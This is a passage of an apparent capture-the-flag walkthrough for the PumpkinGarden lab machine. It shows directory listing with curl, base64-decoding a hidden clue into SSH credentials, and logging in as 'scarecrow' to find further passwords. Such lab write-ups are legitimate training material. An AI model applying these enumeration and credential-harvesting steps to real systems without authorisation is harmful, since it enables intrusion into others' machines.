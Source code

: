 ~~~
 to sit on a pumpkin and have it all to myself,</br> 
rather than sitting with a crowd on a velvet cushion. So, it is better you get one for yourself.</br></br>
<!-- searching for the route map? Pumpkin images may help you find the way -->
Please Don't disturb me... </br></br></br>
I can't help you in getting your pumpkin.</br>But, I found the route map to <b><i>PumpkinGarden</i></b> somewhere under the hood. 
</p>
</center>


</body>
</html>
~~~

## Secret location in the `/img` folder

There is a secret location in the `/img` folder:

~~~
kali@kali:/data/PumpkinGarden$ curl -s http://garden:1515/img/ | html2text 
****** Index of /img ******
[[ICO]]       Name               Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                      -  
[[IMG]]       PumpkinGarden.jpeg 2019-06-07 20:54  15K  
[[IMG]]       favicon.ico        2019-06-06 17:02 1.4K  
[[DIR]]       hidden_secret/     2019-06-07 12:34    -  
[[IMG]]       pumpkin.gif        2019-06-06 15:29  33K  
[[IMG]]       pumpkins1.jpg      2019-06-07 21:20  11K  
[[IMG]]       pumpkins2.jpeg     2019-06-07 20:54  13K  
===========================================================================
     Apache/2.4.7 (Ubuntu) Server at garden Port 1515
~~~

A base64 encoded message located in the secret location provides us with credentials:

~~~
kali@kali:/data/PumpkinGarden/files$ curl -s http://garden:1515/img/hidden_secret/clue.txt | base64 -d
scarecrow : 5Qn@$y
~~~

# SSH (port 3535)

## Initial connection (scarecrow)

Using the credentials found previously, we can connect to the SSH service. There is a note in our home folder, which discloses the password to connect as `goblin`:

~~~
kali@kali:/data/PumpkinGarden$ ssh scarecrow@garden -p 3535
------------------------------------------------------------------------------
			  Welcome to Mission-Pumpkin
      All remote connections to this machine are monitored and recorded
------------------------------------------------------------------------------
scarecrow@garden's password: 
Last login: Mon Oct 19 18:48:03 2020 from 172.16.222.128
scarecrow@Pumpkin:~$ ls -la
total 28
drwx------ 2 scarecrow scarecrow 4096 Jun 11  2019 .
drwxr-xr-x 5 root      root      4096 Jun 11  2019 ..
-rw------- 1 scarecrow scarecrow  117 Jun 13  2019 .bash_history
-rw-r--r-- 1 scarecrow scarecrow  220 Jun 11  2019 .bash_logout
~~~